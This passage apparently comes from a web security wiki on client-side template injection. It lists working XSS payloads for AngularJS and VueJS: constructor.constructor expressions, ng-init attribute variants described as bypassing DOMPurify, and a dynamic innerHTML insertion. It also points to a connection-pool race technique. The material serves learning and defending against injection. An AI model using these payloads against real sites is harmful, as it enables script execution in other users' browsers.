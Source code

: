 <pre class="language-html"><code class="lang-html">&#x3C;script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.3/angular.min.js">&#x3C;/script>

&#x3C;body ng-app>
<strong>  &#x3C;!-- Text injection -->
</strong>  {{constructor.constructor('alert(1)')()}}
<strong>  &#x3C;!-- Attribute injection -->
</strong>  &#x3C;ANY ng-init="constructor.constructor('alert(2)')()">&#x3C;/ANY>
<strong>  &#x3C;!-- Filter bypass (even DOMPurify!) -->
</strong>  &#x3C;ANY data-ng-init="constructor.constructor('alert(3)')()">&#x3C;/ANY>
  &#x3C;ANY class="ng-init:constructor.constructor('alert(4)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA;ng-init:constructor.constructor('alert(5)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA!ng-init:constructor.constructor('alert(6)')()">&#x3C;/ANY>
  &#x3C;ANY class="AAA♩♬♪ng-init:constructor.constructor('alert(7)')()">&#x3C;/ANY>
<strong>  &#x3C;!-- Dynamic content insertion also vulnerable (only during load) -->
</strong>  &#x3C;script>
    document.body.innerHTML += `&#x3C;ANY ng-init="constructor.constructor('alert(8)')()">&#x3C;/ANY>`;
  &#x3C;/script>
&#x3C;/body>
<strong>&#x3C;!-- Everything also works under `data-ng-app`, fully bypassing DOMPurify! -->
</strong>&#x3C;div data-ng-app>
  ...
  &#x3C;b data-ng-init="constructor.constructor('alert(9)')()">&#x3C;/b>
&#x3C;/div>
</code></pre>

In some older versions of AngularJS, there was a sandbox preventing some of these arbitrary code executions. Every version has been bypassed, however, leading to how it is now without any sandbox. See the following page for a history of these older sandboxes:

{% embed url="https://portswigger.net/research/dom-based-angularjs-sandbox-escapes" %}
Escape different AngularJS version sandboxes
{% endembed %}

{% hint style="warning" %}
**Warning**:&#x20;

**Newer versions** of _Angular (v2+)_ instead of _AngularJS (v1)_ are not vulnerable in this way. \
Read more about this in [angular.md](../../frameworks/angular.md "mention").
{% endhint %}

{% hint style="info" %}
**Note**: Injecting content with `.innerHTML` does not always work, because it is only triggered _when AngularJS loads_. If you inject content later from a fetch, for example, it would not trigger even if a parent contains `ng-app`.&#x20;

You may still be able to exploit this by slowing down the AngularJS script loading by **filling up the browser's connection pool**. [See this challenge writeup for details](https://blog.ryotak.net/post/dom-based-race-condition/).
{% endhint %}

#### [VueJS](https://vuejs.org/guide/essentials/template-syntax.html)

```html
<script src="https://cdn.jsdelivr.net/npm/vue@2.5.13/dist/vue.js"></script>

<div id="app">
  <p>{{this.constructor.constructor('alert(1)')()}}</p>
  <p>{{this.$el.ownerDocument.defaultView.alert(2)}}</p>
</div>
<script>
  new Vue({
    el: "#app",
  });
</script>
```
